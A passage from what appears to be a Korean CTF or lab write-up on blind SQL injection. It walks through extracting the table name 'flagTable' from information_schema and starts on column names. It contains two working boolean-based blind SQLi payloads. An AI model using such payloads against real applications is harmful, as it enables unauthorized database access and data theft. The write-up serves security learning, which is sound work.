 스크립트를 실행한 결과, 데이터베이스 이름은 **blindSqli**로 확인되었다.

이제 `information_schema`를 **이용해 테이블명을 추출할 예정**이다.

```sql
' or ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {j},1),{i},1))={ascii} and '1'='1
```

위와 같이 파라미터에 들어갈 **파이썬용 Blind SQLi 페이로드**를 구성한 후.

![blindsql](/assets/web-screenshots/blind-error-based-sqli/python_table_sqli1.png)

스크립트를 약간 수정한 뒤, 해당 페이로드로 **테이블 이름을 추출**하였다.

![blindsql](/assets/web-screenshots/blind-error-based-sqli/python_table_sqli1_find.png)

> 테이블 이름: **flagTable**

테이블 이름을 확인했으므로, 이제 `information_schema`를 통해 **컬럼명을 추출**할 차례다.

```sql
' or ascii(substr((select column_name from information_schema.columns where table_name='flagTable' limit {j},1),{i},1))={ascii} and '1'='1
```
